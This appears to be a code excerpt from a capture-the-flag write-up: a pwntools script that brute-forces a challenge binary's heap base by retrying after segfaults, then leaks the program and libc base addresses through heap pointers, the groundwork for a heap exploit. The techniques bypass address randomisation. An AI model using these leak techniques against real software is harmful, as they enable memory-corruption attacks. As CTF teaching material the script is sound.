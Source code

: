 ```py
    if b'Segmentation fault' in p.recvline():
        print("Wrong guess. trying again...")
        p.close()
        return 0 

    curr = heap_offset + 8

    clap(20, 0) #writing non-null to 0

    for i in range(0x22):
        print(f"Trying {hex(curr)}")
        clap(1, curr)

        print(p.recvline())

        leak = p.recvline()[13:14]
        
        if leak == b'\x91': #if its the start of heap
            return curr - 8
        curr -= 0x1000


def main():
    global p
    heap_offset = 0
    idx = 0
    while heap_offset == 0:
        if REMOTE:
            p = remote("mc.ax" , 31040)
            p.recvuntil("work:\n")
            work = p.recvline()[:-1].decode()
            token = work.split()[-1]
            PoW = os.popen(f'./pow {token}').read()
            print(PoW)
            p.sendline(PoW)

        else:
            p = exe.process()

        heap_offset = find_base_heap_offset()
        idx += 1

    clap(1, heap_offset + 8) #swap back the tcache sizefield
    log.info(f"Found heap start @ {hex(heap_offset)}")

    #Leak binary base
    slap_length(0, -24, 8) #offset to __dso_handle
    p.recvline()
    leak = p.recvline()[12:-6]
    exe.address = u64(leak.ljust(8, b'\x00'))  - 0xf008

    log.info(f'EXE @ {hex(exe.address)}')

    clap(heap_offset+ 0xab8+2, 0x200) #write nullbyte to third byte, 0x200 probably contain nullbyte since its in the bss

    clap("1" * 0x700, "1" * 0x900) #free top chunk
    unsorted_bin_offset = 0x16c0
    slap_length(0, heap_offset + unsorted_bin_offset, 8)
    p.recvline()
    leak = p.recvline()[12:-6]

    libc.address = u64(leak.ljust(8, b'\x00')) - 0x21ace0
```